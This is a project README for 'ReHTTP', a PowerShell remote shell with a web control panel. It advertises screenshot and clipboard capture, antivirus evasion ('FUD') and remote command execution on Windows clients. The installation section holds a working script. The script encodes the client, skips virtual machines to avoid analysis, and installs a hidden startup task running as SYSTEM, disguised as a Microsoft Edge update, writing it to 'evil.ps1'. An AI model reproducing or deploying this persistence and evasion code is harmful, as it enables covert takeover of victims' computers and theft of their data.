 




﻿
<h3 align="center"><img src="https://s28.picofile.com/file/8463031418/favicon.png" alt="logo" height="250px"></h3>
<p align="center">
    <b>ReHTTP</b><br>
    </p>
<hr>
<p align="center">
  <b> Simple Powershell Http shell With WEB UI </b>
    </p>
<p align="center">
  <a href="https://php.net">
    <img src="https://img.shields.io/badge/php-8.0.7-green" alt="php">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/platform-Windows-red">
  </a>
    <a href="https://www.codefactor.io/repository/github/jxroot/ReHTTP">  <img src="https://www.codefactor.io/repository/github/jxroot/ReHTTP/badge" alt="CodeFactor" /> </a>
   

   

  
</p>
<p><img src="https://s28.picofile.com/file/8463024792/main.png" alt="enter image description here"></p>
<h2 id="shell">🤟 Main</h2>

<ul>
<li>Client list</li>
<li>System Info</li>
<li>Client Status</li>
<li>Set Label</li>
<li>Remove Client</li>
<li>Module</li>
<li>Variable</li>
<li>Event</li>
</ul>
<h2 id="shell">💎 Shell</h2>
<p><img src="https://s29.picofile.com/file/8463025868/shell.png" alt="shell tab demo">
<br></p>
<b>Run Powershell Command And You Can Add Command in Scheduled  </b>
<ul>
<li>Shell Access</li>
</ul>
<h2 id="Module">📟 Module</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463025900/modules.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026284/screenshot.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026126/edi.png" alt="enter image description here"></p>
<b>Run Powershell Code as Function Or Module </b></p>
<pre>note : for use template edit $SERVER_URL in Code</pre>
<ul>
<li>Add Module</li>
<li>Edit Module</li>
<li>Delete Module</li>
--------------templates-----------------------
<li>Beep Sound</li>
<li>MessageBox</li>
<li>Download Current Background</li>
<li>Get System IdleTime</li>
<li>Get System LastInput</li>
<li>Get Public IP</li>
<li>Get-Clipboard</li>
<li>Set-Clipboard</li>
<li>Screenshot</li>
<li>OpenLink</li>
</ul>
<h2 id="Module">🧮 Variable</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026176/variable.png" alt="enter image description here"></p>

<p align="center"><img src="https://s29.picofile.com/file/8463026184/variables.png" alt="enter image description here"></p>
<b>Run PHP Code as Variable And Use In PowerShell Script</b></p>
<ul>
<li>Add Variable</li>
<li>Edit Variable</li>
<li>Delete Variable</li>
--------------templates-----------------------
<li>random</li>
</ul>
<h2 id="History">📜 History</h2>
<p><img src="https://s29.picofile.com/file/8463026276/history.png" alt="enter image description here"></p>
<b>if Your Client Break You Can Remove Last Command /:</b></p>
<ul>
<li>Show Command And Module</li>
<li>Remove Command</li>
<li>Re Execute Command</li>
</ul>
<h2 id="History">🪄 Event</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026318/event.png" alt="enter image description here"></p>
<b>Run Custom Command </b></p>
<ul>
<li>First Connection ( Init )</li>
<li>Every Connection ( UP )</li>
<li>Destroy ( Destroy )</li>
</ul>
<h2 id="dependency">🛠 Dependency</h2>
<ul>
<li>PHP 5.4 And Higher</li>
<li>Mysql</li>
</ul>
<h2 id="Antivirus">🦠 Antivirus</h2>
<p><img src="https://s29.picofile.com/file/8463026484/fD0Idrg5jVZx.pnل" alt="enter image description here"></p>
<b>FUD Scan Time + Run Time :)</b>
<h2 id="installation-and-usage">💿 Installation And Usage</h2>
<p>1- Edit $SERVER_URL in Client.ps1</p>
<p>2- Run ps1 script</p>
<p>3- Create Database </p>
<pre class=" language-bash"><code class="prism  language-bash"><span class="token function">git</span> clone https://github.com/jxroot/ReHTTP.git
<span class="token function">cd</span> ReHTTP/Server/
php -S 127.0.0.1:8000 
</code></pre>
<p align="center"><img src="https://s29.picofile.com/file/8463060076/setup.png" alt="enter image description here"></p>
Triger Example For Client
<pre class=" language-bash"><code class="prism  language-bash">
$s = Get-Content client.ps1 | Out-String
$j = [PSCustomObject]@{
  "Script" = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($s))
} | ConvertTo-Json -Compress

$oneline = "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(('" + $j + "' | ConvertFrom-Json).Script)) | iex"

$c = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($oneline))

$template = '
# check Anti vm (vmware \ virtual box)
$VM=get-wmiobject win32_computersystem |select -ExpandProperty Model
if(($VM -NotLike "*VMware*") -and ($VM -NotLike "VirtualBox")){
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument " -NoLogo -NonInteractive -NoProfile -ExecutionPolicy Bypass -Encoded  "'+ $c + ' 
$trigger = New-ScheduledTaskTrigger -AtStartup 
$settings = New-ScheduledTaskSettingsSet -Hidden
$user = New-ScheduledTaskPrincipal -UserId "SYSTEM" -RunLevel Highest  
Register-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" -TaskPath "\"  -Action $action -Settings $settings -Trigger $trigger -Principal $user
Start-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" 
}
'
# Out-File -Encoding Default evil.ps1
New-Item -Path . -Name evil.ps1 -Value $template </code></pre>
<h2 id="operating-systems-tested">💻 Operating Systems Tested</h2>
<ul>
<li>Windows 7</li>
<li>Windows 10</li>
<li>Windows 11</li>
</ul>
<h2 id="youtube-tutorials">📹 YouTube Tutorials</h2>
<p><a href="https://youtu.be/U9xNnd3XtMc">How Install And Usage ReHTTP</a></p>
<h2 id="next-update">🔱 Next Update</h2>
<ul>
<li>fix  ui bugs</li>
<li>clean code </li>
<li>add event for distroy</li>
<li>add multi exec command for client</li>
<li>upload and  download module</li>
<li>async command</li>
<li>scheduled task ( Date )</li>
<li>background task </li>
<li>ui for system information and manage like hiorbit</li>
<li>add file manager </li>
<li>security (xss,csrf,rce,login page,...)</li>
</ul>
<h2 id="contact">📧 Contact</h2>
<p >
<a href="https://t.me/amajax"><img title="Telegram" src="https://img.shields.io/badge/Telegram-black?style=for-the-badge&logo=Telegram"></a>
<a href="https://www.youtube.com/channel/UC0-QcOXgzRgSfcE3zerwu9w/?sub_confirmation=1"><img title="Youtube" src="https://img.shields.io/badge/Youtube-red?style=for-the-badge&logo=Youtube"></a>
<a href="https://www.instagram.com/sectoolfa"><img title="Instagram" src="https://img.shields.io/badge/Instagram-white?style=for-the-badge&logo=Instagram"></a>

